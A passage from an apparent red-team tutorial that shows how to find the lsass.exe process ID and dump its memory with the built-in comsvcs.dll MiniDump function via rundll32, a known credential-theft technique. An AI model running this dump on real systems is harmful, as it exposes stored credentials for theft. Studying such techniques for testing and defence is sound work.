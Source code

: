 ![Untitled](/assets/img/pitcures/red-team/dumplsass9.png)

## Method 3- Getting LSASS Dump with Comsvcs

With Comsvcs you can create a memory dump using native libraries available on Windows machines.

```bash
# Detect the PID for lsass.exe
PS C:\Users\0xhav0c> tasklist | findstr lsass
lsass.exe                      524 Services                   0     51,752 K
# Dumping LSASS.exe
PS C:\Users\0xhav0c> C:\Windows\System32\rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump 524 C:\temp\out.dmp full
```

![Finding lsass.exe pid and getting LSASS dump with Comsvcs.](/assets/img/pitcures/red-team/dumplsass10.png)
_Finding lsass.exe pid and getting LSASS dump with Comsvcs._
